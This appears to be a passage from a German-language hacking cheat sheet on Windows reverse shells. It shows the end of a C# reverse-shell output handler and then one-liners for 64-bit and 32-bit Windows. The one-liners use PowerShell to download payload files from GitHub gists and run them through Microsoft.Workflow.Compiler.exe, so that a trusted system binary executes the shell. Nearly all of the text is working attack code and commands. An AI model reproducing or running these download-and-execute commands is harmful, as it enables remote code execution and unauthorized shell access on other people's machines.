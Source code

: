 ```csharp
}
}
}
}

private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
{
StringBuilder strOutput = new StringBuilder();

if (!String.IsNullOrEmpty(outLine.Data))
{
try
{
strOutput.Append(outLine.Data);
streamWriter.WriteLine(strOutput);
streamWriter.Flush();
}
catch (Exception err) { }
}
}

}
}
```
### C# unter Verwendung des Compilers
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```
[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

Automatischer Download und Ausführung:
```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```
{% embed url="https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f" %}
